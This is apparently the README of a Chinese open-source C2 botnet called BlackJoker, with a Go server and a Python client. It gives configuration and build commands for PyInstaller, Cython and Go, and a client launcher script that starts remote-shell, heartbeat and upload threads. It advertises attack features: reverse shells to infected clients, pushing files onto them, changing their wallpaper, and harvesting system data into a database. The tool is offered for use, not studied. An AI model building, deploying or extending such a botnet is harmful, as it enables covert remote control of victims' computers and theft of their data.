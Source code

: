 # BlackJokerV0.3

**BlackJoker是一个由Golang来开发服务端使用Python来开发客户端的C2BotNet**

构架:
> BlackJoker采用C&S构架,使用HTTP反向代理通信,**目前没有开发流量加密中间件**,它拥有类似Msf的内部Shell


环境要求:

1.打开目录下的config.json文件,配置你的相关参数

2.Mysql数据库,并先行创建你在config.json中设置的表名

3.需要自定义编译客户端需要Pyinstaller or Cython工具

```
pyinstaller -F -add-data "R-Cadimn.jpg" main.py
```
开发者推荐的客户端编译代码:

```
python BlackJoker/Client/ClientPyd/Cython编译目录/setup.py build_ext --inplace

```
BlackJoker/Client/ClientPyd/Cython编译目录/blackjoker.py:
```
import BlackJokerpyx # type: ignore
import threading

if __name__ == "__main__":
    if BlackJokerpyx.init_server():
        # 启动线程
        threads = [
            threading.Thread(target=BlackJokerpyx.shell_os_http),
            threading.Thread(target=BlackJokerpyx.heartbeat_http),
            threading.Thread(target=BlackJokerpyx.heartbeat_receive_and_upload)
        ]
        for thread in threads:
            thread.start()
        for thread in threads:
            thread.join()

```

```
pyinstaller -F blackjoker.py -add-data "{python BlackJoker/Client/ClientPyd/Cython编译目录/setup.py build_ext --inplace得到的pyd文件路径}"
```

4.需要自定义编译服务端需要Golang环境

```
cd BlackJoker

go build -o Black.exe

```

你也可以从我们的发行版获取Zip压缩包，其中包含BlackJoker.exe

## BlackJoker Attack Mod:

1.反弹客户端Shell

2.上传文件到客户端

3.更换客户端壁纸

4.自动获取客户端系统大量数据信息保存在数据库中

## 本次更新内容:
 见发行版

## 使用说明:
你可以在BlackJoker的运行过程中得到一切使用指引

注意 项目仍在努力更新中
